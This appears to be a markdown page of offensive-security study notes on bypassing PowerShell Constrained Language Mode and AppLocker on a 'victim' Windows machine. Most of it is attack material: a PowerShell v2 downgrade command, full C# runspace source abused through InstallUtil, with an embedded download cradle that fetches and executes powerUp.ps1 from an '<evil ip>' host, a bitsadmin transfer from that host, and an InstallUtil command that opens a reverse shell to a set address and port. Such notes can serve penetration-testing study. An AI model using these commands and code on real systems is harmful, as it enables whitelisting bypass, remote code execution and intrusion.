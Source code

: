 # You have no Power(Shell) here muahaha

![](../Assets/abraxas-lotr.gif)

Alright you are in. You run the below command to check if you can Powershell

```powershell
$ExecutionContext.SessionState.LanguageMode
```

![](../Assets/clm.png)

## Quick Explanation on CLM

- CLM is activated when AppLocker is active against script execution
- Under CLM, any scripts in whitelisted locations or complying with whitelisting rules execute with no restrictions
- However, if a script does not comply with the rules or commands are entered directly on the command line, there are restrictions on calls on .NET, C# execution and reflection

## Bypassing CLM - Downgrading to PowerShell V2

PowerShell V2 lacks AMSI and all the fancy protective measures that came after it.
If the victim is Windows 10 and above, this will likely not work since the .NET Framework v2 is not included by default and thus you can't run PowerShell v2.

But just in case there is PowerShell V2

```cmd
powershell.exe -Version 2.0 -Command {<scriptblock>} -ExecutionPolicy <ExecutionPolicy>
```

## Bypassing CLM - Custom Runspaces

- Executing powershell without using Powershell.exe which can bypass AppLocker restrictions on Powershell.exe
- As this will be compiled as an executable, we can abuse InstallUtil to execute our bypass
- Compile this as a C# Console App (.NET Framework) on Visual Studio

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
	class Program
	{
		static void Main(string[] args)
		{
			Console.WriteLine("This is the main method which is a decoy");
		}
	}
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            // change the command to whatever you want. Do note that the Out-File seems to be required in order to read the output because there doesnt seem to be any output to console
            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<evil ip>/powerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

Once compiled, you can use bitsadmin to download the executable onto the victim
For some reason, python http.server dont seem to gel well with bitsadmin. So host the file on an apache2 server

myJob is just a name. Can name it anything you want

```cmd
bitsadmin /Transfer myJob http://<evil ip>/file.txt <output path>
```

Search for InstallUtil (may not be on PATH) on the Windows system
```cmd

dir \Windows\Microsoft.NET\* /s/b | findstr InstallUtil.exe$

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\evil.exe
```

## Bypassing CLM - Open Source Tools

There are at least two tools I found recommended by OffSec Student Mentors in the Discord channel. Seems to work fine and obviously a lot easier!

### Tool 1 : PSByPassCLM

https://github.com/padovah4ck/PSByPassCLM

**Usage**

Fairly simple. Compile the C# code. Transfer to victim and use InstallUtil to execute it. You can also rename your executable to any file format as InstallUtil parses everything

There are two broad modes:

1) Create a "PowerShell Session"

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

2) Reverse Shell

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

### Tool 2: Bypass-CLM

https://github.com/calebstewart/bypass-clm/tree/master


